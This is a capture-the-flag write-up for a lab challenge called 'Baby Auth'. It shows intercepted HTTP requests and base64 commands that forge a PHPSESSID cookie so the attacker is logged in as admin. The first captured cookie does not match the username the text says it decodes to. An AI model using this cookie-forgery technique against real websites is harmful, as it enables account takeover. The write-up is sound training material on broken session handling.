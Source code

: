 # Baby Auth

Really simple Authentication based challenge.

Create a new account with any old username, doesn't really matter, and get yourself logged in.

---

If we intercept the response from the webserver we get the following:

```bash
GET / HTTP/1.1
Host: 206.189.117.48:31943
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://206.189.117.48:31943/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6IkFkbWluIn0%3D
Connection: close

```

Note the `PHPSESSID` is a base64 encoded block, and also note the first 3 characters are `eyJ` which is a pretty good signifier that we're dealing with a JSON blob once it's decoded.

```bash
# Manually change the %3D into an = character first to save effort
base64 -d cookie
{"username":"bullsec"}
```

If we simply make a new JSON blob with and change the value from `bullsec` to `admin` then we'll be able to grab the flag:

```
# Create our new cookie
echo '{"username":"admin"}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIn0K
```

Then we just need to replace the value of `PHPSESSID` with the one we've just created and we get the flag:

```bash
GET / HTTP/1.1
Host: 206.189.117.48:31943
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://206.189.117.48:31943/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImFkbWluIn0K
Connection: close

```

